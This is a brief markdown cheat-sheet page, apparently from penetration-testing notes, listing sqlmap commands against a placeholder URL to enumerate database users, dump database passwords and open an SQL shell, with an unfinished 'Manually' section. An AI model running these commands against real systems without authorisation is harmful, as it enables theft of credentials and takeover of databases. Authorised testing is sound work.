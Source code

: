 # Credentials

## Automated

- Enumerate user database accounts

```
$ sqlmap -u <URL> --random-agent --users
```

- Dump user database passwords

```
$ sqlmap -u <URL> --random-agent --passwords
```

## Manually

TODO: Fill this info

```
$ sqlmap -u <URL> --random-agent --sql-shell
```
